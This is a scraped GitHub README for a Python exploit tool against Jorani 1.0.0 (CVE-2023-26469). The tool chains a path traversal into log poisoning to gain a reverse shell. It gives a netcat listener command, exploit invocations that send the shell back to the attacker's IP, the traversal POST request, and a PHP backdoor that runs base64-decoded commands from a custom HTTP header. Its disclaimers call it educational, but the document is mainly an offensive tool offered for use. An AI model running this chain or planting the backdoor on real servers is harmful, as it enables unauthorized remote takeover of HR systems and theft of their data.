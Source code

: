 # Jorani 1.0.0 Exploit (CVE-2023-26469)

**Unrestricted File Upload → Remote Code Execution Exploit**

[![Python 3.8+](https://img.shields.io/badge/Python-3.8%2B-blue.svg)](https://www.python.org/downloads/)

**Disclaimer**: This tool is for educational and authorized testing purposes only. Misuse of this software is prohibited. The developers assume no liability for damage caused through improper use.

## Table of Contents
- [Description](#description)
- [Vulnerable Versions](#vulnerable-versions)
- [Installation](#installation)

## Description
This exploit targets a critical vulnerability chain in Jorani v1.0.0 that combines:
1. **Path Traversal** in language parameter
2. **Unrestricted File Upload** leading to Remote Code Execution

The exploit works by poisoning application logs with PHP code and triggering execution through manipulated HTTP headers.

**Credits**:
- Original vulnerability discovery: [@jrjgjk (Guilhem RIOUX)](https://github.com/jrjgjk)
- Exploit adaptation: Samip Mainali

## Vulnerable Versions
Confirmed vulnerable version:
- **Jorani 1.0.0**

Other potentially affected versions (untested):
- Tested on Version 1.0.0 (based on CVE-2023-26469 details)

## Installation
1. Clone repository:
bash
git clone https://github.com/samipmainali/Jorani-Reverse-Shell-v1.0.0.git
cd Jorani-Reverse_shell-v1.0.0

Requirements:

Python 3.8+
Requests library
Usage

Start netcat listener:
bash
Copy
nc -lvnp 4444
Run exploit:
bash
Copy
python3 exploit.py -u http://target:port -i YOUR_IP -p LISTENER_PORT
Example:

bash
Copy
python3 exploit.py -u http://192.168.1.100:8080 -i 10.10.14.5 -p 4444
Features:

Automatic protocol detection (HTTP/HTTPS)
Randomized header injection
Connection stability checks
Detailed error diagnostics
Troubleshooting:

If connection fails, verify:
Target URL accessibility
Listener configuration
Firewall rules
Protocol compatibility (HTTP vs HTTPS)
Technical Details

Vulnerability Chain

Log Poisoning:
Path traversal in language parameter allows writing PHP files to log directory
http
Copy
POST /session/login HTTP/1.1
language=../../application/logs
Header-Based Code Execution:
php
Copy
```<?php 
if(isset($_SERVER["HTTP_X_CUSTOM_HEADER"])){
    system(base64_decode($_SERVER["HTTP_X_CUSTOM_HEADER"]));
}
```
Exploit Workflow

CSRF token extraction
Log file poisoning with PHP backdoor
Reverse shell triggering via custom header
Connection stability verification
Key Features

Randomized HTTP header names for each execution
Automatic protocol detection and validation
Connection timeout handling
Color-coded status output
References

CVE-2023-26469 Advisory
Original Research by Guilhem RIOUX

Legal Notice
This software is provided "as-is" without any warranty. Users are solely responsible for ensuring they have proper authorization to test systems using this tool. The developers disclaim all liability for unauthorized or malicious use.
